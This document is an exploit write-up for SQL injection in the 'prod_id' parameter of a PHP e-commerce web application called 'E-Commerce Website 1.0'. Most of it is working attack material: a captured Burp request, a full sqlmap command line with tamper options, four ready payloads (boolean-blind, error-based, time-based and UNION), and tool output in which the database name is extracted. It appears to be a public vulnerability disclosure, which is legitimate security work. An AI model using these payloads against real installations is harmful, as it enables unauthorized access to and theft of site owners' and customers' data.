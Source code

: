 # Exploit Title: E-Commerce Website - SQL Injection 2
# Date: 2023-24-12
# Exploit Author: Hamdi Sevben
# Vendor Homepage: https://code-projects.org/e-commerce-website-in-php-with-source-code/
# Software Link: https://download-media.code-projects.org/2020/01/E-COMMERCE_WEBSITE_IN_PHP_WITH_SOURCE_CODE.zip
# Version: 1.0
# Tested on: Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
# CVE: CVE-

# References: 


------------------------------------------------------------------------------------

1. Description:
----------------------

E-Commerce Website 1.0 allows SQL Injection via parameter 'prod_id' in "http://localhost/Electricks/Electricks-shop/pages/product_details.php?prod_id=11".
Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.


2. Proof of Concept:
----------------------

Go to the ELECTRONIC PRODUCTS: "http://localhost/Electricks/Electricks-shop/pages/products.php"
Option and View.
Intercept the request via Burp Suite and send to Repeater.
Copy and paste the request to a "r.txt" file.
Use sqlmap to exploit.

---

Captured Burp request:

GET /Electricks/Electricks-shop/pages/product_details.php?prod_id=11 HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Cookie: PHPSESSID=ph6ngt1khn1l20eg8hivgv8uc6
Referer: http://localhost/Electricks/Electricks-shop/index.php
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

---

In sqlmap, use 'prod_id' parameter to dump the database. 

python sqlmap.py -r r.txt -p prod_id --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db

---
Parameter: prod_id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: prod_id=11' AND 7251=7251-- mvqJ

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: prod_id=11' AND (SELECT 4336 FROM(SELECT COUNT(*),CONCAT(0x716a787671,(SELECT (ELT(4336=4336,1))),0x71627a7a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- FBBS

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: prod_id=11' AND (SELECT 3355 FROM (SELECT(SLEEP(5)))DonO)-- wPLs

    Type: UNION query
    Title: Generic UNION query (NULL) - 12 columns
    Payload: prod_id=11' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716a787671,0x4477555048486f6e487148784e57436e6b546e534d654447714f6256496243505158646c65797252,0x71627a7a71),NULL,NULL,NULL,NULL,NULL-- -
---
[20:05:42] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.53, PHP 8.1.6
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[20:05:42] [INFO] fetching current database
current database: 'electricks'

current database: electricks
![2](https://github.com/h4md153v63n/CVEs/assets/5091265/ef46e98d-0521-488a-aef2-0ae24dadba49)

